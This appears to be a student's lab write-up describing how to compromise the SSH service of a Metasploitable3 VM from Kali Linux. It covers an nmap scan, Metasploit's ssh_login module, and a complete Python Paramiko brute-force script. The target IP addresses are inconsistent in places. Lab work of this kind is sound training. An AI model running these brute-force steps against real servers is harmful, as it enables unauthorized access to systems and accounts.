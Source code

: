 # Phase 1 Work
---

# Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.138
  ![لقطة شاشة 2025-05-02 175018](https://github.com/user-attachments/assets/94942fcc-b660-42e3-8962-667f8791f449)


-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.100.138 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.

![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/557cb2b3-9eec-4926-a4d0-caa940052cd1)


### 💻 Attacker Environment: Kali Linuxs
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.133
  
![لقطة شاشة 2025-05-02 174402](https://github.com/user-attachments/assets/663c2f26-6c43-4220-9bc8-1f94b2910df6)


#### Tools Used:
- Metasploit Framework
- Nmap
- Hydra
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak/default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.56.101
```
![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/3e9d89d4-12de-4791-a8d7-7e17c015532c)

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:

First: Create a file for usernames and passwords: 

![لقطة شاشة 2025-05-02 181530](https://github.com/user-attachments/assets/103cc98c-6273-4264-be51-b00c8f8f042b)

Then, we start to exploit: 
1. Launch Metasploit:
   ```
   msfconsole
   ```
   ![لقطة شاشة 2025-04-29 230224](https://github.com/user-attachments/assets/2c38ce71-aa71-4c33-abf3-d9fe9f5d8b15)

2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.
-Screen shot shown all the above steps:

![لقطة شاشة 2025-05-02 174003](https://github.com/user-attachments/assets/66bba784-ed18-418d-b479-883ae5f121df)

## Task 1.2 – Compromise Using Custom Script

# Custom SSH Brute-Force Script (Python + Paramiko)

We create the python script using 
```
nano ssh_bruteforce.py
```
This script automates brute-force login attempts to the SSH service using combinations from `user.txt` and `pass.txt`.

```python
import paramiko
import time

host = "192.168.100.138"
port = 22
user_file = "/home/bdoor/user.txt"
pass_file = "/home/bdoor/pass.txt"

def try_login(username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(host, port=port, username=username, password=password, timeout=5)
        print(f"[+] SUCCESS: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Invalid:  {username}:{password}")
    except paramiko.SSHException as e:
        print(f"[!] SSH Error: {e}")
    except Exception as e:
        print(f"[!] Other Error: {e}")
    return False

with open(user_file, "r") as users:
    for user in users:
        user = user.strip()
        with open(pass_file, "r") as passwords:
            for pwd in passwords:
                pwd = pwd.strip()
                if try_login(user, pwd):
                    exit(0)
                time.sleep(1)  # Wait 1 second to avoid banner issues

```
Then we excute the script, and as shown in the last line it was able to brute force the password correctly 
![لقطة شاشة 2025-05-02 181745](https://github.com/user-attachments/assets/0bd22377-6781-4f6e-8bbc-7b5b4d0df463)


![لقطة شاشة 2025-05-02 181753](https://github.com/user-attachments/assets/d415a8f8-0df2-4979-85a7-52e538e8500d)

---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



